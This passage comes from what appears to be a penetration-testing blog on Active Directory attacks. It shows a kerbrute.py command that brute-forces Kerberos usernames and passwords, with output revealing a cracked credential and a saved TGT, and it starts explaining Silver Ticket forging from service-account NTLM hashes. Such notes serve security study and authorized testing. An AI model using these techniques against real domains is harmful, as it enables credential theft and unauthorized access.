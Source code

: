 

#### [](#header-4)kerbrute.py 



There is a great script developed by `TarlogicSecurity` entitled `kerbrute.py` that uses Impacket Libaries to to brute force and enumerate `Kerberos` users.

*https://github.com/TarlogicSecurity/kerbrute*



```python
m0chan@kali:/scripts/> python kerbrute.py -domain m0chanAD.local -users usernames.txt -passwords pass.txt -outputfile foundusers.txt

Impacket v0.9.20 - Copyright 2018 SecureAuth Corporation
[*] Valid user => m0chan
[*] Valid user => jack
[+] M0CHAN => jack:jack123
[*] Saved TGT in jack.ccache
[*] Saved discovered passwords in foundusers.txt
```



Similar to Rubeus it will also request a `TGT` and save it in `.ccache` format which is Linux's Kerberos ticket format which you can later inject to gain access to network resources etc. 



****



# [](#header-1)Silver Ticket	



### [](#header-3)Introduction

if you are interested in InfoSec it's almost inevitable that you have heard of Silver Tickets and Golden Tickets at some points, most think that Silver Tickets are nothing compared to Golden Tickets but they are mistaken, silver tickets are just as dangerous and even more stealthier. 

*This is because giving the nature of the attack there is no communication with the DC hence the stealth.*



Silver tickets are essential forged `TGS` tickets which grant you access to a particular service aka **service-tickets**



In order to generate a Silver-Ticket you require the `NTLM` hash of a `Service Account`, typically services run under traditional user accounts with a SPN value for ex. `mssql` & `iis` user etc.

Silver Tickets not only apply too `User Accounts` they also apply to `Computer Accounts` as sometimes System Services run under the `Computer Account` in this case the NTLM hash of the Computer would be used to generate the ticket. 
